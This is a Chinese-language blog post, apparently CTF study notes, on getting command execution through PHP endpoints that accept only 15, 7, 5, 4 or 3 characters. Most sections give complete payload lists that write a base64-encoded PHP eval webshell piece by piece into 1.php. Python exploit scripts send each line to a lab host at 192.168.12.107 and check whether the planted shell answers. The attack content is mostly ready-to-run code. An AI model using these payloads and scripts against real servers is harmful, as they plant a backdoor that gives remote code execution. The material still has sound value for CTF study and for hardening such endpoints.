

因为网上已经有很多大牛写过类似的文章了，所以本篇文章是一个总结梳理学习。

## 15位可控字符下的命令执行

```php
<?php
highlight_file(__FILE__);
if(strlen($_GET[1])<15){
    echo strlen($_GET[1]);
    echo shell_exec($_GET[1]);
}else{
    exit('too long');
}
```

因为只能传入14个字符，但是没有限制命令执行的次数，所以我们的思想可以通过Linux下的>符号与>>符号写入一段一句话木马到指定文件。

```php
<?php
eval(
$_GET
[1]
);
```

经测试上述这样的一句话木马（经过换行）是可以命令执行的，所以我们可以通过传参构造出这样的一句话木马，不断传入以下Payload：



## 7位可控字符的命令执行

```php
<?php

highlight_file(__FILE__);
if(strlen($_GET[1]<=7)){
    echo strlen($_GET[1]);
    echo '<hr/>';
    echo shell_exec($_GET[1]);
}else{
    exit('too long');
}

?>
```

预备知识：

```shell
a #虽然没有输入但是会创建a这个文件
ls -t #ls基于基于事件排序（从晚到早）
sh a #sh会把a里面的每行内容当作命令来执行
使用\进行命令拼接 #l\ s = ls
base64 #使用base64编码避免特殊字符
```

目标，写入语句“<?php eval($_GET[1]);”，base64编码后“PD9waHAgZXZhbCgkX0dFVFsxXSk7”

需要被执行的语句是：“echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php”

payload.txt

```shell
hp
1.p\\
d\>\\
\ -\\
e64\\
bas\\
7\|\\
XSk\\
Fsx\\
dFV\\
kX0\\
bCg\\
XZh\\
AgZ\\
waH\\
PD9\\
o\ \\
ech\\
ls -t>0
sh 0
```

exp.py

```python
#!/usr/bin/python

# -*- coding: UTF-8 -*-

import requests

url = "http://192.168.12.107/7/index.php?1={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
    for i in f:
        print("[*]" + url.format(i.strip()))
        requests.get(url.format(i.strip()))

#检查是否攻击成功
test = requests.get("http://192.168.12.107/7/1.php")
if test.status_code == requests.codes.ok:
    print("[*]Attack success!!!")
```

攻击完成后就会生成1.php文件

## 5位可控字符的命令执行

```php
<?php
    $sandbox = '/var/www/html/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
?>
```

预备知识：

1. 输入通配符 * ，Linux会把第一个列出的文件名当作命令，剩下的文件名当作参数

2. 通过rev来倒置输出内容（rev命令将文件中的每行内容以字符为单位反序输出）

3. 用dir来代替ls不换行输出；rev将文件内容反向输出；在用ls时，写到a时每个文件名都是单独一行

>rev
>echo 1234 > v
>*v （等同于命令：rev v）

网上有两种解答的方式：一种是curl服务起上写好的文件，进行反弹Shell，而另一种就是写入一句话木马，网上文章详细的解释参看5位可控字符下的命令执行 - 灰信网（软件开发博客聚合），我来将可用性最高的一种方法记录下。

目的：echo${IFS}PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 ‐d>1.php

那么我们只需要将上面的代码拆分倒序输入到主机即可。我们需要让sh先执行a文件（ls -th >f）就会得到f文件，最后再让sh去执行f文件即可得到1.php。最终payload如下

payload.txt

```shell
dir
f\>
ht-
sl
*>v
rev
*v>a
hp
p\\
1.\\
\>\\
-d\\
\ \\
64\\
se\\
ba\\
\|\\
7\\
Sk\\
X\\
x\\
Fs\\
FV\\
d\\
X0\\ 
k\\
g\\
bC\\
h\\
XZ\\
gZ\\
A\\
aH\\
w\\
D9\\ 
P\\
S}\\
IF\\
{\\
\$\\
o\\
ch\\
e\\
sh a
sh f
```

exp.py

```python
#!/usr/bin/python

# -*- coding: UTF-8 -*-

import requests
url = "http://192.168.12.107/5/index.php?cmd={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
    for i in f:
        print("[*]" + url.format(i.strip()))
        requests.get(url.format(i.strip()))
        #检查是 否攻击成功
test = requests.get("http://192.168.12.107/5/sandbox/2ad26c4b0f3cdead3c4c1955ad805b8d/1.php")
if test.status_code == requests.codes.ok:
    print("[*]Attack success!!!")
```

这里注意网上其他文 章并没有介绍说，这样利用有失败的可能，需要多跑几次脚本，我本地利用Kali的测试结果是如此。

## 4位可控字符的命令执行

```php
 <?php
    error_reporting(E_ALL);
    $sandbox = '/var/www/html/sandbox/'.md5("orange".$_SERVER['REMOTE_ADDR']);
    mkdir($sandbox);
    chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
?>
```

原理与之前的5位是一样的，经测试构造的payload.txt内容去掉了一个\也可以成功输出1.php

```shell
dir
f\>
ht-
sl
*>v
rev
*v>a
hp
p\
1.\
\>\
-d\
\ \
64\
se\
ba\
\|\
7\
Sk\
X\
x\
Fs\
FV\
d\
X0\
k\
g\
bC\
h\
XZ\
gZ\
A\
aH\
w\
D9\
P\\
S}\
IF\
{\
\$\
o\
ch\
e\
sh a
sh f
```

exp.py

```python
#!/usr/bin/python

# -*- coding: UTF-8 -*-

import requests
import threading
lock = threading.Lock()
def exp():
    lock.acquire(True) #锁定
    url = "http://192.168.12.107/4/index.php?cmd={0}"
    print("[+]start attack!!!")
    with open("payload.txt","r") as f:
        for i in f:
            print("[*]" + url.format(i.strip()))
            requests.get(url.format(i.strip()))
            #检查是 否攻击成功
    test = requests.get("http://192.168.12.107/4/sandbox/2ad26c4b0f3cdead3c4c1955ad805b8d/1.php")
    if test.status_code == requests.codes.ok:
        print("[*]Attack success!!!")
    lock.release() #释放

if __name__ == '__main__':
    t = threading.Thread(target=exp)
    t.start()
```

但需要多尝试几次，这个成功的几率比5位的还略小一些，暂时不清楚为什么，可能跟系统版本有关系。

## 3位可控字符的命令执行

这个知识点来自CTFSHOW平台的【nl】难了 一题

```php
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<4){
     echo shell_exec($_GET[1]);
}
else{
     echo "hack!!!";
}
?>
```

只限3个字符的shell_exec，依然利用通配符 * 表示将ls下面的文件执行，如果第一个是命令就直接执行命令，后面的当参数，与前几点的原理类似

首先ls查看当前目录下有哪些文件  ?1=ls

只存在s开头的和z开头的文件，Linux中文件排序按照26个英文字母顺序排放，所以我们依然利用前几种字符限制的方法，通过>写入一个以命令名命名的文件，如:nl（读取文件带上行）od（八进制显示输出），但这样的命令前提是其第一个字母必须在当前文件名中排到第一位。

payload:?1=>nl ?1=*或?1=*>z 第二种：?1=>od ?1=*

接下来再传入?=*的时候就会在源代码中得到flag。